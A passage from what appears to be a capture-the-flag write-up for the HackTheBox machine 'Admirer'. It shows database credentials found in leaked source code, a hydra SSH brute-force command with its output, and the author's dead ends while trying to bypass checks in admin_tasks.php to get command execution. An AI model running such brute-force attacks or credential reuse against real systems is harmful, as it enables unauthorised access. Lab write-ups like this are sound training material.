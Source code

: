 ```
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A"d6b";
$dbname = "admirerdb";
$servername = "localhost";
$username = "waldo";
$password = "Wh3r3_1s_w4ld0?";
```

So I try SSH login brute-force with a list of all the passwords and username as "waldo".

```
hydra -L user -P pass -t 4 10.10.10.187 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-06 10:32:59
[DATA] max 4 tasks per 1 server, overall 4 tasks, 120 login tries (l:20/p:6), ~30 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[STATUS] 64.00 tries/min, 64 tries in 00:01h, 56 to do in 00:01h, 4 active
[22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-06 10:34:57
http://10.10.10.187/utility-scripts/adminer.php
```

But when I tried to login with the found creds I got connection closed. NOT invalid password but connection closed. That makes it #RabbitHole2
because I tried to get it to work but to no success.

Next I browse to #RabbitHole3 i.e admin_tasks.php in the `utility-scripts` directory. There were some juicy functions but none of them worked and I kept editing the html to get them to work.

<img src="/images/admirer/rabbit.png" />

Since we already have the source code of admin_task.php I saw that there was a system command in there and I kept trying to bypass the checks to get some rce :(

# Optional Read End
